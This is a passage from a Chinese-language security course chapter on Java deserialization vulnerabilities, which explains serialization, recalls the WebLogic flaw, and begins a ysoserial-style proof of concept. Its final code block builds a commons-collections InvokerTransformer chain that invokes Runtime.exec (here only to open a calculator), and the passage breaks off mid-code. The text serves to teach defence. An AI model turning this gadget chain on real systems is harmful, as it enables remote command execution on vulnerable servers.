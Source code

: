 <p align="center" id="tip"></p>
<h1 class="title" data-id="09 反序列化漏洞：使用了编译型语言，为什么还是会被注入？" id="title">09 反序列化漏洞：使用了编译型语言，为什么还是会被注入？</h1>
<div><p>你好，我是何为舟。</p>
<p>我们都知道，Java是一种高层级的语言。在Java中，你不需要直接操控内存，大部分的服务和组件都已经有了成熟的封装。除此之外，Java是一种先编译再执行的语言，无法像JavaScript那样随时插入一段代码。因此，很多人会认为，Java是一个安全的语言。如果使用Java开发服务，我们只需要考虑逻辑层的安全问题即可。但是，Java真的这么安全吗？</p>
<p>2015年，Java曾被曝出一个严重的漏洞，很多经典的商业框架都因此受到影响，其中最知名的是<a href="https://baike.baidu.com/item/weblogic/451978?fr=aladdin" target="_blank">WebLogic</a>。据统计，在网络中公开的WebLogic服务有3万多个。其中，中国就有1万多个外网可访问的WebLogic服务。因此，WebLogic的反序列化漏洞意味着，国内有1万多台服务器可能会被黑客攻陷，其影响的用户数量更是不可估量的。</p>
<p>你可能要说了，我实际工作中并没有遇到过反序列化漏洞啊。但是，你一定使用过一些序列化和反序列化的工具，比如Fastjson和Jackson等。如果你关注这些工具的版本更新，就会发现，这些版本更新中包含很多修复反序列化漏洞的改动。而了解反序列化漏洞，可以让你理解，Java作为一种先打包后执行的语言，是如何被插入额外逻辑的；也能够让你对Java这门语言的安全性，有一个更全面的认知。</p>
<p>那么，到底什么是反序列化漏洞呢？它究竟会对Java的安全带来哪些冲击呢？遇到这些冲击，我们该怎么办呢？今天我就带你来了解反序列化漏洞，然后一起学习如何防护这样的攻击！</p>
<h2 id="反序列化漏洞是如何产生的">反序列化漏洞是如何产生的？</h2>
<p>如果你是研发人员，工作中一定会涉及很多的序列化和反序列化操作。应用在输出某个数据的时候，将对象转化成字符串或者字节流，这就是序列化操作。那什么是反序列化呢？没错，我们把这个过程反过来，就是反序列化操作，也就是应用将字符串或者字节流变成对象。</p>
<p>序列化和反序列化有很多种实现方式。比如Java中的Serializable接口（或者Python中的pickle）可以把应用中的对象转化为二进制的字节流，把字节流再还原为对象；还有XML和JSON这些跨平台的协议，可以把对象转化为带格式的文本，把文本再还原为对象。</p>
<p>那反序列化漏洞到底是怎么产生的呢？问题就出在把数据转化成对象的过程中。在这个过程中，应用需要根据数据的内容，去调用特定的方法。而黑客正是利用这个逻辑，在数据中嵌入自定义的代码（比如执行某个系统命令）。应用对数据进行反序列化的时候，会执行这段代码，从而使得黑客能够控制整个应用及服务器。这就是反序列化漏洞攻击的过程。</p>
<p>事实上，基本上所有语言都会涉及反序列化漏洞。其中，Java因为使用范围比较广，本身体积也比较庞大， 所以被曝出的反序列化漏洞最多。下面，我就以Java中一个经典的反序列化漏洞demo <a href="https://github.com/frohoff/ysoserial" target="_blank">ysoserial</a> 为基础，来介绍一个经典的反序列化漏洞案例，给你讲明白反序列化漏洞具体的产生过程。了解漏洞是怎么产生的，对于你后面理解防护措施也会非常有帮助，所以这里你一定要认真看。</p>
<p>不过，这里也先提醒你一下，这块原理的内容相对比较复杂。我会尽量给你讲解清楚，讲完之后，我也会带着你对这部分内容进行总结、复习。重复记忆可以加深理解，这块内容建议你可以多看几遍。好了，下面我们就来看这个案例！</p>
<p>最终的演示demo的代码如下所示。在macOS环境下运行这段代码，你就能够打开一个计算器。（在Windows环境下，将系统命令open -a calculator修改成calc即可。）注意，这里需要依赖3.2.1以下的commons-collections，最新的版本已经对这个漏洞进行了修复，所以无法重现这个攻击的过程。</p>
<pre><code>public class Deserialize {
    public static void main(String... args) throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException, NoSuchMethodException {
        Object evilObject = getEvilObject();
        byte[] serializedObject = serializeToByteArray(evilObject);
        deserializeFromByteArray(serializedObject);
    }

    public static Object getEvilObject() throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, NoSuchMethodException {
        String[] command = {"open -a calculator"};

        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        command
                )
        };
